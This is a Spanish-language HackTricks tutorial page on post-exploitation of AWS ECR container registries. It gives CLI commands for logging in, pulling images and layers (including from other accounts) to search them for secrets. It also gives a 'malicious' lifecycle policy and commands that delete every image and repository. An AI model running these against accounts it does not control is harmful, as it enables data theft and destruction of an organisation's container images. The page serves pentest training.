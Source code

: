 # AWS - Post Explotación de ECR

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a **tu empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos.
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## ECR

Para obtener más información, consulte

{% content-ref url="../aws-services/aws-ecr-enum.md" %}
[aws-ecr-enum.md](../aws-services/aws-ecr-enum.md)
{% endcontent-ref %}

### Inicio de sesión, descarga y carga

{% code overflow="wrap" %}
```bash
# Inicio de sesión de Docker en ecr
aws ecr get-login-password --profile <profile_name> --region <region> | docker login --username AWS --password-stdin <account_id>.dkr.ecr.<region>.amazonaws.com
## Si necesita acceder a una imagen de un repositorio de una cuenta diferente, en <account_id> establezca el número de cuenta de la otra cuenta

# Descarga
docker pull <account_id>.dkr.ecr.<region>.amazonaws.com/<img_name>:latest
## Si aún tiene el error "Imagen solicitada no encontrada"
## Puede ser porque la etiqueta "latest" no existe
## Obtener etiquetas válidas con: 
TOKEN=$(aws --profile <profile> ecr get-authorization-token --output text --query 'authorizationData[].authorizationToken')
curl -i -H "Authorization: Basic $TOKEN" https://<account_id>.dkr.ecr.<region>.amazonaws.com/v2/<img_name>/tags/list

# Inspeccionar la imagen
docker inspect sha256:079aee8a89950717cdccd15b8f17c80e9bc4421a855fcdc120e1c534e4c102e0

# Carga (ejemplo de carga de purplepanda con la etiqueta latest)
docker tag purplepanda:latest <account_id>.dkr.ecr.<region>.amazonaws.com/purplepanda:latest
docker push <account_id>.dkr.ecr.<region>.amazonaws.com/purplepanda:latest

# Descarga sin Docker
# Lista de resúmenes
aws ecr batch-get-image --repository-name level2 \
    --registry-id 653711331788 \
    --image-ids imageTag=latest | jq '.images[].imageManifest | fromjson'

## Descargar un resumen
aws ecr get-download-url-for-layer \
    --repository-name level2 \
    --registry-id 653711331788 \
    --layer-digest "sha256:edfaad38ac10904ee76c81e343abf88f22e6cfc7413ab5a8e4aeffc6a7d9087a"
```
{% endcode %}

Después de descargar las imágenes, debe **verificarlas en busca de información confidencial**:

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/docker-forensics" %}

### `ecr:PutLifecyclePolicy` | `ecr:DeleteRepository` | `ecr-public:DeleteRepository` | `ecr:BatchDeleteImage` | `ecr-public:BatchDeleteImage`

Un atacante con cualquiera de estos permisos puede **crear o modificar una política de ciclo de vida para eliminar todas las imágenes en el repositorio** y luego **eliminar todo el repositorio de ECR**. Esto resultaría en la pérdida de todas las imágenes de contenedor almacenadas en el repositorio.

```bash
bashCopy code# Crear un archivo JSON con la política de ciclo de vida maliciosa
echo '{
  "rules": [
    {
      "rulePriority": 1,
      "description": "Eliminar todas las imágenes",
      "selection": {
        "tagStatus": "any",
        "countType": "imageCountMoreThan",
        "countNumber": 0
      },
      "action": {
        "type": "expire"
      }
    }
  ]
}' > malicious_policy.json

# Aplicar la política de ciclo de vida maliciosa al repositorio ECR
aws ecr put-lifecycle-policy --repository-name your-ecr-repo-name --lifecycle-policy-text file://malicious_policy.json

# Eliminar el repositorio ECR
aws ecr delete-repository --repository-name your-ecr-repo-name --force

# Eliminar el repositorio público de ECR
aws ecr-public delete-repository --repository-name your-ecr-repo-name --force

# Eliminar varias imágenes del repositorio ECR
aws ecr batch-delete-image --repository-name your-ecr-repo-name --image-ids imageTag=latest imageTag=v1.0.0

# Eliminar varias imágenes del repositorio público de ECR
aws ecr-public batch-delete-image --repository-name your-ecr-repo-name --image-ids imageTag=latest imageTag=v1.0.0
```

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a **tu empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos.
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
